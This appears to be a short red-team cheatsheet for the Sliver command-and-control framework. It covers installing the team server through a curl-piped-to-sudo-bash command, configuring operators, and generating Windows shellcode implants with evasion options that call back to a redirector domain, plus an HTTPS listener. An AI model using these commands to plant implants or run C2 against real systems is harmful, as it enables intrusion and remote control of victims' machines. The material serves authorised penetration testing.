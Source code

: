 # Sliver

- [https://github.com/BishopFox/sliver](https://github.com/BishopFox/sliver)




## Install

- [https://github.com/BishopFox/sliver/releases/latest](https://github.com/BishopFox/sliver/releases/latest)

Install team server as a daemon on the team server:

```
$ curl https://sliver.sh/install | sudo bash
```

For a client get a `sliver-client` binary from releases.




## Configure Team Server for Multiplayer

- [https://github.com/BishopFox/sliver/wiki/Configuration-Files](https://github.com/BishopFox/sliver/wiki/Configuration-Files)

Change [multiplayer](https://github.com/BishopFox/sliver/wiki/Multiplayer-Mode) listener host (daemon mode) and restart:

```
$ sudo vi /root/.sliver/configs/server.json
$ sudo systemctl restart sliver.service
```

Generate config for a new operator:

```
$ sudo /root/sliver-server operator --name snovvcrash-kali-home --lhost <PRIVATE_IP> --lport 31337 --save snovvcrash_<PRIVATE_IP>.cfg
```




## Cheatsheet

A redirector-aware pair of payload and listener (when redirecting to `PRIVATE_IP:8443`):

```
sliver > generate --os windows --arch amd64 --format shellcode [--evasion] --http example.com:443 [--limit-datetime 1970-01-01] [--limit-hostname VICTIM-PC] [--limit-username victim.user] --name victimpc --save /home/snovvcrash/www/shellcode.bin
sliver > https --domain example.com --lhost <PRIVATE_IP> --lport 8443
```
